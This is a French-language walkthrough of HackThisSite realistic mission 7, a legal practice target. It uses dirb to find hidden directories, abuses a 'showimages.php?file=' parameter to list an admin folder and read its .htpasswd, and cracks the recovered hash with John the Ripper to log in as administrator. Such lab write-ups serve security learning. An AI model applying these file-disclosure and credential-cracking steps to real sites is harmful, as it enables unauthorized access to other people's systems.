 ## 7.What's Right For America

1.Chercher les url caché

`dirb https://www.hackthissite.org/missions/realistic/7/`

![ex7](./images/ex7.1.png)

trouver le lien https://www.hackthissite.org/missions/realistic/7/images

![ex7](./images/ex7.2.png)

et le lien 

https://www.hackthissite.org/missions/realistic/7/images/admin

![ex7](./images/ex7.3.png)

2. Cherche le nom de user et le mot de passe


Retournez à la page d'accueil, cliquez sur ‘Patriotism’ ci-dessous, vous verrez que le lien devient https://www.hackthissite.org/missions/realistic/7/showimages.php?file=patriot.txt,
il semble qu'une étape de recherche de fichiers a été exécutée. Utilisez à nouveau le balayage de répertoires pour voir ce qu'il y a dans ‘images/admin’ comme lien.
`https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/`

![ex7](./images/ex7.4.png)
 il existe deux liens :
 
 https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd
 https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htaccess

3.https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd

![ex7](./images/ex7.5.png)

4.L'info d'image

![ex7](./images/ex7.6.png)

info importante :`administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1`

nom de l’utilisateur :administrator
le mot de passe est crypté par hash.

5.Décrypte le mot de pass
Écrire le text dans le ficher et le nommer 'hash.txt'
avec le command sur kali linux

`john hash.txt`
![ex7](./images/ex7.7.png)

8.login
nom de l’utilisateur :administrator
mot de pass :shadow
![ex7](./images/ex7.png)
